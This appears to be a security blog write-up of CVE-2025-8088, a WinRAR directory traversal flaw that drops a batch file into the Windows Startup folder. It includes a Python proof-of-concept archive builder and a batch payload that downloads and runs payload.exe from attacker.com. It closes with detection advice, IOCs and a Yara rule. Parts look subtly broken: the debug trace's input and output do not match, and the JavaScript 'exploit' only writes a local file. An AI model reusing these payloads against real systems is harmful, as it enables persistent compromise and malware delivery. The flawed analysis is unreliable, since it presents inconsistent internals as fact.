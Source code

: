 ```yaml
---
title: "CVE-2025-8088: WinRAR Directory Traversal RCE"
layout: post
tags: [WinRAR, CVE-2025-8088, directory traversal, exploit, malware, reverse engineering, cybersecurity, red-team, pentest]
image: /assets/images/cve-2025-8088-winrarrce.jpg
---
```


# CVE-2025-8088: WinRAR Directory Traversal → Remote Code Execution

CVE-2025-8088 is a **critical vulnerability** in WinRAR's archive extraction mechanism. 
This flaw allows attackers to use specially crafted `.rar` archives to **extract files into arbitrary directories** on the victim's system, potentially leading to **Remote Code Execution (RCE)**.

---

## 1️⃣ Technical Mechanism

WinRAR's `ExtractFile()` function does not properly sanitize file paths containing **path traversal sequences (`../`)**. 
An attacker can place a malicious file into `../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat`.

When the user extracts the archive, the malicious file is written to the **Windows Startup folder**, executing automatically on reboot.

### Core Issue:
`ExtractFile()` attempts to normalize paths but **fails to prevent directory traversal**.

---

## 2️⃣ Malicious Archive Structure

```text
evil.rar
 ├── readme.txt
 └── ../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat
```
- `readme.txt` → benign appearance
- `evil.bat` → malicious payload executed at startup

---

## 3️⃣ Proof of Concept (PoC)

### Python Example (ZIP for demonstration)
```python
from zipfile import ZipFile
import os

payload = '@echo off
echo Malicious code executed!
pause
'

os.makedirs("build", exist_ok=True)
with open("build/evil.bat", "w") as f:
    f.write(payload)

with ZipFile("evil.zip", "w") as archive:
    archive.write("build/evil.bat",
        "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat")
```
> Note: ZIP is used for demonstration. Real attackers use RAR CLI or specialized libraries.

---

## 4️⃣ Exploit Scenario

1. Attacker sends malicious archive via email or social engineering.
2. Victim extracts the archive → `evil.bat` lands in Startup folder.
3. On next reboot, `evil.bat` executes.
4. Example `evil.bat` content:
```bat
@echo off
powershell -c "Invoke-WebRequest -Uri http://attacker.com/payload.exe -OutFile %TEMP%\p.exe; Start-Process %TEMP%\p.exe"
```

---

## 5️⃣ Red-Team Automation Script
```javascript
import fs from 'fs';

const traversalPath = "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat";
fs.writeFileSync(traversalPath, "echo Exploit successful!");
console.log("[+] Payload written to startup folder");
```
> Lab use only.

---

## 6️⃣ Detection & Blue Team Perspective

**Detection:**
- EDR/AV: Unexpected files in Startup folder.
- SIEM: `WinRAR.exe` creating files in sensitive directories.
- Yara: Detect `../` sequences in archive paths.

**Mitigation:**
- Update to WinRAR 7.13 or higher.
- Monitor Startup folder for unexpected files.
- Educate users on not opening untrusted archives.
- Apply mail gateway checks for suspicious `.rar`/`.zip` files.

---

## 7️⃣ Hacker Perspective

- **Entry Point:** Malicious `.rar` archive
- **Technique:** Directory Traversal → Startup persistence
- **Outcome:** Remote Code Execution
- **Red-Team Benefit:** Persistent access, malware delivery
- **Blue-Team Priority:** Patching + Startup monitoring

---

## 8️⃣ Reverse Engineering – Path Traversal Analysis

Vulnerability resides in WinRAR's `Unpack.cpp` → `ExtractFile()` function. Path normalization (`NormalizePath()`) fails to prevent `..` sequences.

### IDA Disassembly Snippet
```asm
.text:00419A10 push    ebp
.text:00419A11 mov     ebp, esp
.text:00419A13 push    esi
.text:00419A14 push    edi
.text:00419A15 mov     esi, [ebp+src]
.text:00419A18 mov     edi, [ebp+dst]
loop_next_char:
.text:00419A1B lodsb
.text:00419A1C test    al, al
.text:00419A1E jz      done
.text:00419A20 cmp     al, 2Eh
.text:00419A22 jnz     store_char
.text:00419A24 cmp     byte ptr [esi], 2Eh
.text:00419A27 jnz     store_char
.text:00419A29 add     esi, 1
.text:00419A2C jmp     loop_next_char
store_char:
.text:00419A2E stosb
.text:00419A2F jmp     loop_next_char
done:
.text:00419A31 mov     al, 0
.text:00419A33 stosb
.text:00419A34 pop     edi
.text:00419A35 pop     esi
.text:00419A36 pop     ebp
.text:00419A37 retn
```

**Analysis:**
- `..` sequences are partially checked but not prevented.
- Result: `CreateFile()` writes file to Startup folder.

### Debug Example
```
esi = "....\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
edi = buffer (dst)
NormalizePath output: "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
```
- Traversal not blocked → exploit succeeds.

---

## 9️⃣ Combined PoC + RE Conclusion

- **Code Level:** Traversal not sanitized
- **Outcome:** File placed in Startup folder
- **Exploit Chain:** Malicious archive → NormalizePath → CreateFile → Startup persistence

---

## 🔟 Blue Team IOC & Yara Example

**IOC:**
- Archive containing `..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- `WinRAR.exe` → `CreateFileW()` call to Startup folder

**Yara Rule:**
```yara
rule WinRAR_DirectoryTraversal {
    meta:
        description = "Detects WinRAR archives with directory traversal payloads"
        author = "BlueTeam"
        cve = "CVE-2025-8088"
    strings:
        $traversal = "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
    condition:
        $traversal
}
```

---


